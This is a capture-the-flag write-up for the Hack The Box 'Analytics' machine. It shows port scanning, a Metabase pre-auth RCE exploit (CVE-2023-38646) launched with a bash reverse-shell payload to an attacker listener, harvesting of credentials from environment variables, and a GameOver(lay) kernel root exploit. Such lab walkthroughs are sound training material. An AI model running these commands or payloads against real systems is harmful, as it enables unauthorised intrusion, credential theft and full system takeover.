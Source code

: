 ```yaml
---
title: HTB - Analytics
date: 2023-12-29
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, analytics, cve-2023-38646, cve-2023-32629]
img_path: /assets/analytics/
published: true
---
```


![room_banner](room_banner.png)

## Overview

|:-:|:-:|
|Machine|[Analytics](https://app.hackthebox.com/machines/569)|
|Rank|Easy|
|Time|-|
|Focus|CVEs|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

## Information gathering

```shell
# port-scanning
$ sudo nmap analytics -T4 --min-rate 10000 -A

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://analytical.htb/
```

## Initial foothold

According to Nmap's output, the HTTP server redirects us to `http://analytical.htb/`, so we have to add it to our `/etc/hosts` file:

  ![](etc_hosts.png){: .normal }

  ![](home.png)

When clicking on `Login` we are redirected to `data.analytical.htb`:

  ![](analytical_login.png)

Let's us add this to `/etc/hosts` as well:

  ![](etc_hosts_1.png){: .normal }

  ![](home_data.png){: .normal width="70%"}

Viewing the page source, we can find Metabase's version:

  ![](metabase_version.png)

Searching Google for a public exploit we find the [Metabase Pre-Auth RCE (CVE-2023-38646) POC](https://github.com/Pyr0sec/CVE-2023-38646). This requires the value of the `setup token` which can be found in the `/api/session/properties` directory:

  ![](setup-token.png){: .normal }

All we have to do now, is to open a listener and run the PoC with a Bash reverse shell payload:

  ```shell
  # setting up a listener
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  ```

  ```shell
  # executing the PoC
  $ python3 exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c "bash -i >& /dev/tcp/10.10.14.6/1337 0>&1"
  ```

  ```shell
  # catching the reverse shell
  $ nc -lvnp 1337
  listening on [any] 1337 ...
  connect to [10.10.14.6] from (UNKNOWN) [10.10.11.233] 43200
  bash: cannot set terminal process group (1): Not a tty
  bash: no job control in this shell
  59a5ee253db5:/$
  ```

## Privilege escalation

After exploring the environment, we can find some credentials listed on the `env` variable:

  ```shell
  59a5ee253db5:/$ env
  env
  SHELL=/bin/sh
  MB_DB_PASS=
  HOSTNAME=59a5ee253db5
  LANGUAGE=en_US:en
  MB_JETTY_HOST=0.0.0.0
  JAVA_HOME=/opt/java/openjdk
  MB_DB_FILE=//metabase.db/metabase.db
  PWD=/
  LOGNAME=metabase
  MB_EMAIL_SMTP_USERNAME=
  HOME=/home/metabase
  LANG=en_US.UTF-8
  META_USER=metalytics # Username
  META_PASS=An4lytics_ds20223# # Password
  MB_EMAIL_SMTP_PASSWORD=
  USER=metabase
  SHLVL=4
  MB_DB_USER=
  FC_LANG=en-US
  LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
  LC_CTYPE=en_US.UTF-8
  MB_LDAP_BIND_DN=
  LC_ALL=en_US.UTF-8
  MB_LDAP_PASSWORD=
  PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
  MB_DB_CONNECTION_URI=
  JAVA_VERSION=jdk-11.0.19+7
  _=/usr/bin/env
  OLDPWD=/var
  ```

We can use them to log in to the SSH server and right away find the `user.txt`:

  ```shell
  $ ssh metalytics@analytics
  # pass: An4lytics_ds20223#
  metalytics@analytics:~$ ls -la
  total 36
  drwxr-x--- 4 metalytics metalytics 4096 Aug  8 11:37 .
  drwxr-xr-x 3 root       root       4096 Aug  8 11:37 ..
  lrwxrwxrwx 1 root       root          9 Aug  3 16:23 .bash_history -> /dev/null
  -rw-r--r-- 1 metalytics metalytics  220 Aug  3 08:53 .bash_logout
  -rw-r--r-- 1 metalytics metalytics 3771 Aug  3 08:53 .bashrc
  drwx------ 2 metalytics metalytics 4096 Aug  8 11:37 .cache
  drwxrwxr-x 3 metalytics metalytics 4096 Aug  8 11:37 .local
  -rw-r--r-- 1 metalytics metalytics  807 Aug  3 08:53 .profile
  -rw-r----- 1 root       metalytics   33 Dec 29 16:56 user.txt
  -rw-r--r-- 1 metalytics metalytics   39 Aug  8 11:30 .vimrc
  ```

There isn't anything of interest laying around, so we can check the kernel's version and look for a public exploit:
  
  ```shell
  metalytics@analytics:/$ uname -a
  Linux analytics 6.2.0-25-generic #25~22.04.2-Ubuntu SMP PREEMPT_DYNAMIC Wed Jun 28 09:55:23 UTC 2 x86_64 x86_64 x86_64 GNU/Linux
  ```

There is the [GameOver(lay) Ubuntu Privilege Escalation](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which we can copy and paste on our target from the `/tmp` directory:

  ```shell
  metalytics@analytics:/$ cd /tmp
  metalytics@analytics:/tmp$ nano exploit.sh
  metalytics@analytics:/tmp$ chmod +x exploit.sh
  metalytics@analytics:/tmp$ ./exploit.sh
  [+] You should be root now
  [+] Type 'exit' to finish and leave the house cleaned
  root@analytics:/tmp# id
  uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
  root@analytics:/tmp# ls /root/
  root.txt
  ```

<figure>
    <img src="machine_pwned.png"
    alt="Machine pwned" >
</figure>